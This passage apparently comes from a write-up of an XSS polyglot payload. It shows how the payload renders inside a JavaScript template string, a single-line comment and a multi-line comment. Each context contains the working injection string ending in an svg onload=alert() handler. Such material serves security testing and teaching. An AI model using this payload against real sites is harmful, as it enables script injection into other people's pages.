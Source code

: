 ### Context #2: Template string

- Code snippet

```html
<script>
    injection = `payload`;
</script>
```

- Result from payload

```html
<script>
    injection = `"
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;`;
</script>
```

### Context #3: Single-line comment

- Code snippet

```html
<script>
    // payload
</script>
```

- Result from payload

```html
<script>
    // "
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;
</script>
```

### Context #4: Multi-line comment 

- Code snippet

```html
<script>
    /* payload */
</script>
```

- Result from payload

```html
<script>
    /* "
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt; */
</script>
```
